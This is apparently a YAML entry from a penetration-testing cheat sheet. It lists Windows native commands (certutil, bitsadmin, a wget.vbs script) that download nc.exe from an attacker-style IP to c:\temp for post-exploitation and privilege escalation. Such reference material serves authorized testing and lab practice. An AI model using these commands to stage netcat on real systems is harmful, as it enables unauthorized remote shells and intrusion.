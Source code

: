 ```yaml
---
title: |
  File Transfers - Linux to Windows - Native commands
description: |
  Native Commands:

  	certutil.exe -urlcache -split -f "http://10.10.14.17/nc.exe" c:\temp\nc.exe

  	bitsadmin /transfer job /download /priority high http://10.10.14.17/nc.exe c:\temp\nc.exe

  	cscript /nologo wget.vbs http://10.10.14.17/nc.exe nc.exe

command: |
  See commands. 
items:
  - Shell
  - Username
  - Password
OS:
  - Windows
attack_types:
  - Enumeration
  - PrivEsc
references:
  - https://book.hacktricks.xyz/generic-methodologies-and-resources/exfiltration
  - https://isroot.nl/2018/07/09/post-exploitation-file-transfers-on-windows-the-manual-way/
---
```


